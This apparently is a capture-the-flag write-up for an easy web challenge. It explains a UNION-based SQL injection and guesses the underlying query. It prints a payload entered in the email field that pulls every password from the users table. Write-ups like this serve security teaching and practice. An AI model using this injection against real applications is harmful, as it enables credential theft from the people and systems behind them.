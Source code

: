 # Web: Baby SQLi
Difficulty: Easy

This challenge is identical to the regular SQLi challenge, except you are given the table and column names from the start. 

In order to leak the password, we can perform a simple SQL injection attack.

https://portswigger.net/web-security/sql-injection

Using the information given from the description, we can guess that the SQL command looks something like:

```
SELECT username FROM users WHERE email = '____________'
```

If we input an email of:
```
' UNION SELECT password FROM users; -- 
```

Then the SQL command looks like:
```
SELECT username FROM users WHERE email = '' UNION SELECT password FROM users; -- 

```

Which matches every user and gets you the password, attached onto the original query. 